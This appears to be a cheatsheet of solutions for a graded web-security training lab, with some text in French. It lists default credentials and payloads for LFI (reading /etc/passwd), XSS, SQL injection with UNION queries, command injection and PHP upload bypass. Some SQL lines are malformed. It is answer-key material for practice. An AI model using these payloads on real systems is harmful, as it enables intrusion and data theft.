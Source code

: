# Cheatsheet

## Broken authentication
Level 1
admin:password

- weak password
- default password
- GET parameters


Level 2

alice:123456789

- error message


## Broken Access Control
?sessionid=120983


## LFI

?topic=../../../../../../etc/passwd
?topic=php://filter/convert.base64-encode/resource=secret.php

## XSS
Level 1
<script>alert('XSS')</script>

Level 2
<script>alert('XSS')</script>

Modifier le contenu du premier message : 
<script>document.getElementsByTagName("p").item(1).innerHTML="Modifié par un hacker"</script>

Level 3 
Uniquement pseudo

Level 4
<img src="x" onerror="alert('XSS')"/>


## SQLi
Level 1
' or 1=1; -- 
a

admin' and 1=1; -- 
Level 2
uniquement password 
' or 1=1; --


Level 3
' union select null; -- 
' union select 'a','b','c','d'; -- 
' UNION select null, table_name,null,null from information_schema.tables; -- 
' UNION select null, column_name,null,null from information_schema.comluns where table_name='sql1'; -- 
' union select null,username,password,null from table='sql1'; --


## Command injection
Level 1
google.fr; ls


Level 2
google.fr" && ls #

## PHP file upload
try to upload .php3, .php4, .php5, .phtml...

5 secrets : 


1 - fuzzing 
secret.php

robots.txt => /96bd94aa09f61018abeaf0cd7b7c6387.php

code source => 33a2838ab91f7f01a24da38cb55cae10.php

?topic=php://filter/convert.base64-encode/resource=secret.php

Extract .git 
git restore .